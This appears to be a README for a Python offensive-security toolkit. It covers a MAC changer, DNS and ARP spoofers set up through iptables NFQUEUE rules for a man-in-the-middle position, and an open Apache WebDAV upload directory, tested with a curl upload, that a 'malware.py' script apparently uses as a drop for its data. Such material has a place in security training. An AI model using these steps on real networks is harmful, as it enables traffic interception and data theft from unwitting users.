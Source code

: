 --> Usage for Mac Address Changer --

First save the file with the python (.py) extension. In terminal write -- python2 <file_name.py> -i -m <mac_addess> eg. --> python2 mac_changer.py -i eth0 -m 00:11:22:33:44:55

--> Usage for DNS Spoofer & ARP Spoofer --

Domain Name Server (DNS)

iptables -I FORWARD -j NFQUEUE --queue-num 0 --> run this command in your linux terminal first

but if you are testing it in your own machine you would need to use --> iptables - I INPUT -j NFQUEUE --queue-num 0 and then Run this --> iptables -I INPUT -j NFQUEUE --queue-num 0

then run the arp spoofer, so that you are the man in the middle.
After you work is done make sure to delete the iptables using the command -> iptables --flush

--> For malware.py file which is using linux apache2 server 
Enable required Apache modules:
1. in terminal - 
sudo a2enmod dav
sudo a2enmod dav_fs
sudo systemctl restart apache2

2. Edit your default site configuration (usually /etc/apache2/sites-available/000-default.conf):
- in terminal - 
sudo nano /etc/apache2/sites-available/000-default.conf

3. Inside the below text on <VirtualHost *:80> block, add:

<Directory /var/www/html/files>
    Options Indexes FollowSymLinks
    Dav On
    AllowOverride None
    Require all granted
</Directory>

4. Reload Apache:
   - in terminal -
sudo systemctl reload apache2

5. Test the Configuration
From any machine on your network, test file upload:

- in terminal -
  
echo "test" > /tmp/test.txt
curl -T /tmp/test.txt http://192.168.11.111/files/test_curl.txt
If you get a 201 Created or 200 OK response, it works.

Visit http://192.168.11.111/files/ in your browser: you should see the new file listed.


